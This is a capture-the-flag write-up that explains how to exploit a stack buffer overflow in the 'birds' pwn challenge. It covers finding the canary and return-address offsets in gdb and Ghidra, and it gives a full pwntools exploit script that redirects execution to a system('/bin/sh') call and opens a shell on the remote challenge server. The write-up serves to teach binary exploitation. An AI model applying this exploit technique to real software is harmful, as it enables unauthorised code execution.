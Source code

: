 ##### pwn challenge
Required Tools: 
- checksec
- gdb debugger
- Linux operating system or Windows Subsystem for Linux (WSL)
- pwntools

For this challenge, all that we need to do is find the distance between the buffer, the canary, and the return address at the end of main. After that, we just need to understand pwntools, how stack memory works, and how assembly works, and we can write a quick exploit script in python to get shell access to the remote server and print the flag.

### 1.  Finding all of our needed offsets
- We will use gdb to debug the **birds** executable. We will set two breakpoints. One at the instruction that takes place right after the buffer is filled, and another right on the RET instruction.
- Because this program is so simple you may be able to tell where to place both of these breakpoints by running the command **disas main** 
![[main disassembly.png]]

We can go ahead and place our breakpoints  at the RET instruction, and at the cmpl assembly instruction
```
(gdb) b *0x40125d
Breakpoint 1 at 0x40125d                                                                                                                               
(gdb) b *0x401285
Breakpoint 2 at 0x401285 
```

If you want to make sure you are understanding correctly and are placing your breakpoints at the right spot, you can open up the executable in ghidra or IDA pro and compare memory addresses with their places in the decompiled C code.

After analyzing the executable, we find **main** in the symbol tree under functions. We can see that, although gdb and Ghidra disassembled the birds executable a little differently, that we have the correct position for both the start of the if statement, and the return address for main
![[ghidra-1.png]]

While we are in gdb and ghidra, let us also figure out the address of the call to run the shell. We can skip straight to this address in memory to avoid having to call a gadget.

Let's first disassemble win() in gdb, find the address we think is the system call to run the shell, and then verify we are correct with ghidra
 ![[win disassembly.png]]
It appears that the system call in **win** happens at 0x4011e6 in memory. And we can verify this in ghidra by finding **win** in the Symbol Tree
![[win breakpoint.png]]

**WATCH OUT!**

If we assumed that this memory address is where we should jump to in order to execute our shell system call, we would be mistaken! We have to remember that function calls require setup in assembly. The system function call requires an argument  (a command). Recall that in linux x86-64 assembly, RDI is a functions first argument, followed by RSI, RDX , RCX, and so on. This means that RDI must be filled with the system command '/bin/sh' before the system call, otherwise the function call will fail or behave unpredictably. 

From looking at ghidra's visual debugger, we can see that inside of the IF statement there are 2 lines of preparation before the system call is made. This means we should override main's return address with **0x4011dc** , which will bring us right to our shell system call.
![[Assembly Preparation.png]]

Ok, so now it's time to run birds with the breakpoints we have set. 
1. On our first breakpoint, we are trying to determine the distance between the buffer and the canary
2. On our second breakpoint, we are trying to find the return address of main, so that we can find the distance between the canary and the return address.

When we run birds in gdb, we are prompted to fill the buffer. Go ahead and fill the buffer with 64 characters of any kind. Each character is a byte, that's why the buffer size and the character count is the same. In my debugging session I put in 64 A's.

Feel free to copy/paste

`AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Once you press enter, you will be stopped at our first breakpoint. 

At this breakpoint we want to examine the stack to see where the buffer ends and the canary begins. To inspect the stack, run the below command:
**x/127wx $rsp**
![[stack-screenshot.png]]
- Lets break down the above GDB command:
	- x/ -> examine -> used to inspect memory
	- 128 -> Specifies the number of units to examine, in this case, 128 units
	- w -> Stands for "word", which means each unit is 4 bytes / 32 bits
	- x -> Specifies the format, which in this case is hexadecimal
	- $rsp Refers to the stack pointer register
	- All of the A's here display as 0x41, because the ASCII representation of A is 0x41 in hexadecimal (65 in decimal)

Since each group of data displayed here is 4 bytes, we can tell that there are **12 bytes of data** in between the buffer and the canary

Let's keep this screenshot in mind and continue to the next breakpoint. We can continue by typing **c**

Once we break at the RET instruction, all we have to do is step one instruction forward and find the contents of RIP. Recall that RIP is the instruction pointer. Because we broke right before RET, if we step one instruction forward with the command **stepi**, the next instruction will be where we are returning to, AKA the return address of main.

If we run the command **info stack frame**, we can find the contents of RIP , and try and find this address on the stack that we took a screenshot of before.
![[RIP Contents.png]]

We found that the return address is 8 bytes away from the canary!

![[stack-screenshot-Highlights.png]]

We now know everything we need in order to write our pwntools script.

We can take advantage of pwntools p32() and p64() functions to add our canary and return address data to the payload, as the data needs to be changed from big endian to little endian format in order for the CPU to read it properly.

pwntools script:

```
from pwn import *

# -- PAYLOAD CREATION -- #
payload = b"A"*64
payload += b"B" * 12
payload += p32(0xDEADBEEF)
#payload += b"\xef\xbe\xad\xde" <- what the canary ends up as

payload += b"C" * 8
payload+= p64(0x00000000004011dc)
#payload += b"\xdc\x11\x40\x00\x00\x00\x00\x00" <- what the ret addr ends up as

print(payload)

# ---------------------- #


# EXECUTABLE CONNECTION #

# If you are connecting to a local process, use the below

#p = process('./birds')
#p.sendline(payload)
#p.interactive()

# If you are connecting to a remote server, use the below

target_host = "tjc.tf"
target_port = 31625

conn = remote(target_host, target_port)
conn.recvuntil("wrong!\n")
conn.sendline(payload)
conn.interactive()

# --------------------- #
```

Explanation of big -> little endian conversion

Recall that in big endian format, numbers to the left are more significant than numbers on the right. Humans use big endian number formatting.

In little endian format, numbers to the right are more significant than numbers to the left.

For example, consider the big endian number 123. In little endian, that number would be written as 321. But they refer to the same value.

gdb converts stack memory from little endian to big endian for readability purposes. But when we perform our buffer overflow attack, we have to make sure the data ends up on the stack in little endian format.

However, each character/byte is represented with two hexidecimal digits. These two digits don't change order. ![[big-little-endian.png]]

Putting the connection in interactive mode allows the user to run shell commands.#
